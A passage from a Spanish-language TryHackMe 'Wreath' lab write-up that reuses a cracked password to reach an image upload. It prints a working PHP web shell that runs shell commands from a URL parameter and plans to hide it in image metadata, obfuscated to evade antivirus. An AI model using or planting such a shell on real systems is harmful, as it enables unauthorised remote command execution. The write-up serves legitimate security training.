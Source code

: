 En efecto la misma [contraseña](https://hacknotes.github.io/tryhackme/wreathWriteUp/#craqueo-de-hashes) de Thomas que obtuvimos antes nos sirvió para acceder a este recurso de carga de imágenes.

#### Web Shell

Como sabemos que este servicio web interpreta código `php` y que podemos subir una imagen intentaremos insertar nuestra `web shell` en los meta datos de nuestra imagen.

```php
<?php
    $cmd = $_GET["cmd"];
    if(isset($cmd)){
        echo "<pre>" . shell_exec($cmd) . "</pre>";
    }
    die();
?>
```

Algo a tomar en cuenta es que esta última máquina cuenta con un antivirus activado como se menciona en la propia sala de [Tryhackme](https://tryhackme.com/room/wreath) por lo cual debemos tener cuidado al momento de cargar nuestra `web shell`.

#### Web Shell Ofuscada

La [web shell](https://hacknotes.github.io/tryhackme/wreathWriteUp/#web-shell) anterior nos servirá para ponerla en nuestra imagen pero esta seria detectada fácilmente, por lo cual usaremos [php ofuscator](https://www.gaijin.at/en/tools/php-obfuscator) para ofuscarla y pasar desapercibidos.

![Webshell ofuscada](/assets/images/report/ofuscatewebshell.png)
